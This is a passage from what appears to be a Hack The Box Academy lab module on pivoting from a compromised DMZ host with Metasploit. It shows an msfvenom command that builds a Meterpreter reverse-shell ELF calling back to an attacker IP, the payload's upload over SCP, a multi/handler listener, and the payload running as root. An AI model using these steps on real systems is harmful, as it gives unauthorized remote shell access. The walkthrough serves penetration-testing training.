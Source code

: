 PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
</code></pre>
<hr/>
<h2>Setting Up Pivoting - Metasploit</h2>
<p>Alternatively, we can set up our pivoting using Metasploit, as covered in the <a href="https://academy.hackthebox.com/module/158/section/1428">Meterpreter Tunneling &amp; Port Forwarding</a> section of the Pivoting module. To achieve this, we can do the following:</p>
<p>First, generate a reverse shell in Elf format using <code>msfvenom</code>.</p>
<pre><code class="language-shell-session">[!bash!]$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=443 -f elf &gt; shell.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

</code></pre>
<p>Next, transfer the host to the target. Since we have SSH, we can upload it to the target using SCP.</p>
<pre><code class="language-shell-session">[!bash!]$ scp -i dmz01_key shell.elf <a class="__cf_email__" data-cfemail="43312c2c370372736d72717a6d7173706d727272" href="/cdn-cgi/l/email-protection">[email protected]</a>:/tmp

shell.elf                                                                      100%  207     1.6KB/s   00:00
</code></pre>
<p>Now, we'll set up the Metasploit <code>exploit/multi/handler</code>.</p>
<pre><code class="language-shell-session">[msf](Jobs:0 Agents:0) exploit(multi/handler) &gt;&gt; use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) &gt;&gt; set payload linux/x86/meterpreter/reverse_tcp
payload =&gt; linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) &gt;&gt; set lhost 10.10.14.15 
lhost =&gt; 10.10.14.15
[msf](Jobs:0 Agents:0) exploit(multi/handler) &gt;&gt; set LPORT 443
LPORT =&gt; 443
[msf](Jobs:0 Agents:0) exploit(multi/handler) &gt;&gt; exploit

[*] Started reverse TCP handler on 10.10.14.15:443
</code></pre>
<p>Execute the <code>shell.elf</code> file on the target system:</p>
<pre><code class="language-shell-session">root@dmz01:/tmp# chmod +x shell.elf 
root@dmz01:/tmp# ./shell.elf 
</code></pre>
<p>If all goes as planned, we'll catch the Meterpreter shell using the multi/handler, and then we can set up routes.</p>
<pre><code class="language-shell-session">[msf](Jobs:0 Agents:0) exploit(multi/handler) &gt;&gt; exploit
